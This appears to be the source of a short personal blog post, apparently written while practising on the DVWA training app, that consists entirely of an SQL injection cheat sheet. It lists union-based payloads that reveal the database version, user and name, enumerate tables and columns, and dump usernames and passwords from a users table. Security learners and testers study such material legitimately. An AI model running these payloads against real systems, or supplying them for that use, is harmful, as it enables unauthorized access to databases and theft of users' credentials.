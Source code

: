 ```yaml
---
title: SQL CheatSheet
date: 2021-09-12
categories:
  - Notes
tags:
  - Notes
  - SQL
excerpt_separator: <!--more-->
---
```

<p><img src="/assets/images/dvwa/SQLi/sql.png" alt="" /></p>

<h1>SQL Injection</h1>
<p>CheatSheet</p>
<p>
Display Database Version
%' or 0=0 union select null, version() #<br>
<br>
Display Database User
%' or 0=0 union select null, user() #<br>
<br>
Display Database Name
%' or 0=0 union select null, database() #<br>
<br>
Display all tables in information_schema
%' and 1=0 union select null, table_name from information_schema.tables #<br>
<br>
Display all the user tables in information_schema
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#<br>
<br>
Display all the columns fields in the information_schema user table
%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #<br>
<br>
Display all the columns field contents in the information_schema user table
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #<br>
</p>